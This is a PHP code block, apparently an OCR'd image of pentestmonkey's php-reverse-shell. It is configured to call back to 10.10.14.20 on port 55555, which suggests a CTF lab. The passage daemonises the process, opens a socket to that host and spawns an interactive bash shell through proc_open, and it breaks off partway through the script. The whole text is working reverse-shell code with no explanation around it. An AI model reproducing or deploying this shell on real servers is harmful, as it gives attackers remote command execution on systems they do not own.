 ```php
<?PHP
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.20';
$port = 55555;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
  $pid = pcntl_fork();
  
  if ($pid == -1) {
    printit("ERROR: Can't fork");
    exit(1);
  }
  
  if ($pid) {
    exit(0);  // Parent exits
  }
  if (posix_setsid() == -1) {
    printit("Error: Can't setsid()");
    exit(1);
  }

  $daemon = 1;
} else {
  printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
  printit("$errstr ($errno)");
  exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
  printit("ERROR: Can't spawn shell");
  exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
```